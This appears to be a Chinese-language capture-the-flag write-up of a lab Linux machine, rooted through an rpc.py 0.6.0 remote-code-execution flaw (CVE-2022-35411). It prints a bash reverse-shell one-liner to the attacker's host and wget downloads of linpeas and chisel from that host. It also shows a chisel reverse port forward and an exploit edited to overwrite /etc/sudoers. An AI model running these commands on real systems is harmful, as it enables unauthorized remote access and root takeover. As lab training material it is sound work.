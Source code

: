 ```yaml
---
description: Linux / 中等难度 / rpc.py 0.6.0 RCE
---
```


# ✔️ PC

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描，发现2个开放端口：22和8000

<figure><img src="../.gitbook/assets/1 (4).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 从Nmap扫描结果也可直接得知，发现8000端口就是一个终端：

<figure><img src="../.gitbook/assets/2 (4).png" alt=""><figcaption></figcaption></figure>

* 将shell回连到自己的Kaili机器上，方便后续操作：

```bash
# Kali
nc -lvnp 5555
# 目标主机
sh -i >& /dev/tcp/192.168.45.154/5555 0>&1
```

<figure><img src="../.gitbook/assets/3 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (5).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 传linpeas.sh到目标系统进行信息收集：

```bash
# Kali目录下开启服务器
pyhton3 -m http.server 8888
# 目标主机
wget http://192.168.45.154:8888/linpeas.sh /home/user/linpeas.sh
```

<figure><img src="../.gitbook/assets/5 (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
关于linpeas所收集到的可能可被利用的CVE漏洞是具有参考意义的，但并非每次都能成功作用于当前的目标系统，还需要结合目标系统实际的具体情况，仔细查看各项输出信息，再做判断。（兔子洞很容易出现在这个阶段，就像本例就没有利用到那些建议的CVE）
{% endhint %}

* 本例中，从linpeas的输出信息可得知还有两个活动的开放端口（53和65432）是之前Nmap阶段并没有扫描出来的，因此可以重点关注一下：

<figure><img src="../.gitbook/assets/6 (5).png" alt=""><figcaption></figcaption></figure>

* 在查看以root权限运行的进程时，发现有一个\`rpc.py\`的脚本是运行在/opt目录下的，该目录并不是安装默认应用程序的文件夹：

<figure><img src="../.gitbook/assets/7 (6).png" alt=""><figcaption></figcaption></figure>

* 查看一下该脚本发现它是运行在当前目标系统的65432端口上的，又是65432：

<figure><img src="../.gitbook/assets/8 (7).png" alt=""><figcaption></figcaption></figure>

* 因为之前的扫描无法得知端口65432上运行的关于服务的具体信息，所以决定使用chisel对该端口进行反向端口转发，再用Nmap扫出关于它的详细信息：

```bash
# Kali机器和目标系统机器都需要安装相同版本的chisel
# 本例下载的是chisel linux 1.9.1版本的，将该工具传入目标系统中
wget http://192.168.45.154:8888/chisel /home/user/chisel
chmod +x chisel
```

<figure><img src="../.gitbook/assets/9 (5).png" alt=""><figcaption></figcaption></figure>

* 在Kali机器上开启chisel服务器，监听好端口：

```bash
chisel server -p 7777 --reverse
```

<figure><img src="../.gitbook/assets/10 (5).png" alt=""><figcaption></figcaption></figure>

* 然后在目标系统上开启chisel的客户端，并设置端口转发各个参数后运行：

```bash
chisel client 192.168.xx.xxx:7777 R:65432:127.0.0.1:65432
```

<figure><img src="../.gitbook/assets/11 (4).png" alt=""><figcaption></figcaption></figure>

* 此时Kali主机的服务端应该已经有了转发成功的数据流，可确认一下是否真的成功：

```bash
netstat -tulnp
```

<figure><img src="../.gitbook/assets/12 (4).png" alt=""><figcaption></figcaption></figure>

* 现在就可以用Nmap对Kali机器上的65432端口进行扫描，以获取该端口上运行的服务的详细信息了：

```bash
nmap -sC -sV -p 65432 127.0.0.1 -A -sT
```

<figure><img src="../.gitbook/assets/13 (4).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据Nmap输出信息，没有发现什么东西，所以直接尝试搜索\`rpc.py\`的漏洞利用，发现了一个远程代码执行的漏洞：

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 阅读代码后，发现可将\`exec\_command()\`函数中的内容直接修改为自己需要的命令：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将此处命令修改为可以让user用户无需密码即可以root权限运行各个命令：

```bash
'echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
```

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 这个脚本是直接在exploitdb里下载的，里面每个=后面都有个\`3D\`的乱码得删掉，才能执行成功。

### ROOT

* 修改好后的脚本传入目标机器，赋予执行权限，直接运行该脚本即可提权成功：

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获取flag：

<figure><img src="../.gitbook/assets/20 (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例以为又是一个评级过高的简单机器，因为该机器并没有GET SHELL的过程。在之后的提权阶段需要涉及到反向端口转发和仔细的进行信息枚举，才能发现可被利用的漏洞。

CVE-2022-35411
{% endhint %}
